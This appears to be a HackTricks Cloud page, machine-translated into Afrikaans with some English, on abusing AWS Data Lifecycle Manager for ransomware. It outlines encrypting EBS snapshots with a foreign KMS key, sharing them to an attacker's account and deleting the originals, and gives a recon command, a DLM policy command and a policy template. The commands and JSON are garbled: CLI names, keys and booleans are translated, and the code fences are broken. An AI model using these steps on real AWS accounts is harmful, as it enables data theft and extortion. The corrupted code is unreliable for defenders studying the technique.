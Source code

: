 # AWS - Data Lifecycle Manager

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

'n Ransomware-aanval kan uitgevoer word deur soveel EBS-volume as moontlik te enkripteer en dan die huidige EC2-instanties, EBS-volume en oomblikke uit te vee. Om hierdie skadelike aktiwiteit te outomatiseer, kan 'n persoon Amazon DLM gebruik, deur die oomblikke te enkripteer met 'n KMS-sleutel van 'n ander AWS-rekening en die enkripteerde oomblikke na 'n ander rekening oor te dra. Alternatiewelik kan hulle oomblikke sonder enkripsie na 'n rekening wat hulle bestuur oordra en dit daar enkripteer. Alhoewel dit nie reguit is om bestaande EBS-volume of oomblikke direk te enkripteer nie, is dit moontlik om dit te doen deur 'n nuwe volume of oomblik te skep.

Eerstens sal 'n persoon 'n bevel gebruik om inligting oor volumes te versamel, soos instansie-ID, volume-ID, enkripsiestatus, aanhegstaus en volume-tipe.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```afrikaans
aws dlm skep-lewensiklusbeleid --beskrywing "My eerste beleid" --toestand GEAKTIVEER --uitvoeringsrol-arn arn:aws:iam::12345678910:rol/AWSDataLifecycleManagerDefaultRole --beleidsbesonderhede lêer://beleidsbesonderhede.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"Beleidstipe": "EBS_SNAPSHOT_BESTUUR",
"Hulpbrontipes": [
"VOLUME"
],
"Teikentekens": [
{
"Sleutel": "VoorbeeldSleutel",
"Waarde": "VoorbeeldWaarde"
}
],
"Skedules": [
{
"Naam": "DaaglikseSnaps",
"KopieerTegniek": waar,
"TegniekeByvoeg": [
{
"Sleutel": "Snapskepper",
"Waarde": "DLM"
}
],
"VeranderlikeTegnieke": [
{
"Sleutel": "Kostesentrum",
"Waarde": "Finansies"
}
],
"SkepReël": {
"Interval": 24,
"IntervalEenheid": "URE",
"Tye": [
"03:00"
]
},
"BehouReël": {
"Telling": 14
},
"VinnigeHerstelReël": {
"Telling": 2,
"Interval": 12,
"IntervalEenheid": "URE"
},
"KruisStreekKopieerReëls": [
{
"TeikenStreek": "us-west-2",
"Versleutel": waar,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/jou-kms-sleutel-id",
"KopieerTegnieke": waar,
"BehouReël": {
"Interval": 1,
"IntervalEenheid": "DAE"
}
}
],
"DeelReëls": [
{
"TeikenRekeninge": [
"123456789012"
],
"OngedaanmaakInterval": 30,
"OngedaanmaakIntervalEenheid": "DAE"
}
]
}
],
"Parameters": {
"SluitBootVolumeUit": onwaar
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
